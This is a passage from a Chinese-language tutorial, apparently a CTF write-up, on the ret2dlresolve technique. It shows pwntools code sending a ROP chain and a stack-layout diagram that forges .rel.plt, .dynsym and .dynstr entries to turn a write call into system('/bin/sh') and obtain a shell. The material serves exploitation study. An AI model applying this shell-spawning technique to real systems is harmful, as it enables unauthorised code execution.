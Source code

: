 ```
# 发送此次利用链
p.sendline(rop.chain())
p.interactive()
```

结果为：

![image-20240315202154229](${images}/image-20240315202154229.png)



最后一步、换write函数为system

前些步骤将栈迁移，对.rel.plt的迁移、对.dynstr的迁移。都是对write函数进行实验，并通过前面的各部分的验证，证明/bin/sh字符串可以作为一个函数的参数使用。那么着部分我们就可以将write函数替换成system函数了，替换之后如果不出意外，那就执行exp后可获取shell

**替换system函数**

这一部分在前面的基础上只需要将部署在.dynstr位置的“write\x00”替换成“system\x00”就可以了，所以直接就给出栈布局吧

```
      低地址位 	
		    +---------------------+
	  0x00  |        plt0         |  <----ret
			+---------------------+
      0x04  |    index_offset     | 伪造的.rel.plt的结构体偏移
       	    +---------------------+
      0x08  |        bbbb         | write函数返回地址
       		+---------------------+
      0x0c  |          1          | write函数1参
       		+---------------------+
      0x10  |     /bin/sh地址      | write函数2参，/bin/sh字符串所在地址
       		+---------------------+                 
      0x14  |          7          | write函数3参     
       		+---------------------+   
      0x18  |      r_offset       | 伪造的.rel.plt的结构体成员r_offset
            +---------------------+
      0x1c  |       r_info        | 伪造的.rel.plt的结构体成员r_info
            +---------------------+
      0x20  |        aaaa         |  对齐
       		+---------------------+
      0x24  |        aaaa         |  对齐
       		+---------------------+
      0x28  |       st_name       |  伪造的.dynsym的结构体的成员变量st_name
      		+---------------------+
      0x2c  |       st_value      |  伪造的.dynsym的结构体的成员变量st_value
      		+---------------------+
      0x30  |       st_size       |  伪造的.dynsym的结构体的成员变量st_size
      		+---------------------+
      0x34  |       st_info       |  伪造的.dynsym的结构体的成员变量st_info
       		+---------------------+  
      0x34  |        syst         |  伪造的.dynstr：system\x00
            +---------------------+
      0x34  |       em\x00        | 
       		+---------------------+
       		|        aaaa         |  填充          
       		|        ....         |  填充          
       		|        aaaa         |  填充            
       		+---------------------+                
      0x50	|      /bin/sh        | /bin/sh字符串
       		+---------------------+ 
       		|        aaaa         |
       		|        ....         |              
       		|        aaaa         |           
   高地址位  +---------------------+

```